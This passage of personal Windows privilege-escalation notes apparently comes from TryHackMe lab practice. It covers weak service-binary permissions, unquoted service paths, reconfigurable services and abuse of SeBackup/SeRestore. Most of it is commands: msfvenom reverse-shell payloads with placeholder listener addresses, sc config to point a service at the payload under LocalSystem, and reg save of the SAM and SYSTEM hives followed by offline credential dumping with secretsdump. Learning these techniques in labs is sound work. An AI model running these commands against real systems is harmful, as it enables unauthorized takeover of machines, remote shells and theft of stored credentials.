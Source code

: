 ```Powershell
icacls WService.exe /grant Everyone:F 
```
**Restart the service to trigger the reverse shell**
```Powershell
sc stop windowsscheduler
sc start windowsscheduler
```

##### Unquoted Service paths
_**Example**_
![[Screenshot_2024-07-21_12-43-24.png]]
The `BINARY_PATH_NAME` is unquoted, which means that Windows will try to execute `C:\MyPrograms\Disk.exe` first, then `C:\MyPrograms\Disk Sorter.exe` and finally the intended binary. If we have the permissions to write in `C:\MyPrograms`, we could place a reverse shell as `Disk.exe`
**Create the binary**
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[host] LPORT=[port] -f exe-service -o Disk.exe
```

##### Insecure Service permissions
**Check service permission**
Using `Accesschk` from Sysinternals suite
```Powershell
accesschk64.exe -qlc thmservice
```
![[Screenshot_2024-07-21_12-57-00.png]]
This means that `BUILTIN\Users` has `SERVICE_ALL_ACCESS` permissions <small>(thx sherlock)</small>
**Put the binary somewhere**
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[host] LPORT=[port] -f exe-service -o revshell.exe
```
**Reconfigure the binary path for the service**
```Powershell
sc config THMService binPath="C:\Users\thm-unpriv\Desktop\revshell.exe" obj=LocalSystem
```
**Restart the service to trigger the reverse shell**
```Powershell
sc stop THMService
sc start THMService
```

### Abusing dangerous privileges
[List of privileges](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
[Escalation]([List of privileges](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants))
**Check privileges**
Run the `cmd.exe` as Administrator to get the complete privileges of the user
```powershell
whoami /priv
```

##### SeBackup / SeRestore
**Backup SAM and SYSTEM hive**
```powershell
reg save hklm\system \\tsclient\share\system.hive
reg save hklm\sam \\tsclient\share\sam.hive
```
<small>\\tsclient\share is the rdp shared directory</small>
**Dump credentials with [secretdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)**
```shell
python3 secretdump.py -sam /rdp/sam.hive -system /rdp/system.hive LOCAL
```

